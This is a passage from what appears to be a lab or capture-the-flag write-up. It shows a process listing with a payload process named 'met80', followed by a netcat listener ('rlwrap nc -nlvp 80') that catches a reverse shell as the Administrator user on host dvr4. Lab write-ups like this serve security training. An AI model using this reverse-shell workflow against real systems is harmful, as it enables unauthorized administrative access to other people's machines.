 (o)
(o)Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
(o)-------  ------    -----      -----     ------     --  -- -----------
(o)     34       3      528       2480       0.00   3816   0 met80
{{< /bash-code >}}

The password with `$` at the end worked and the binary was executed.

I then received a shell on my nc listener as the Administrator user:

{{< bash-code >}}
rlwrap nc -nlvp 80
(o)listening on [any] 80 ...
(o)connect to [192.168.45.229] from (UNKNOWN) [192.168.202.179] 50493
(o)Microsoft Windows [Version 10.0.19042.1348]
(o)(c) Microsoft Corporation. All rights reserved.
(o)
C:\Users\viewer>whoami
(o)whoami
(o)dvr4\administrator
{{< /bash-code >}}
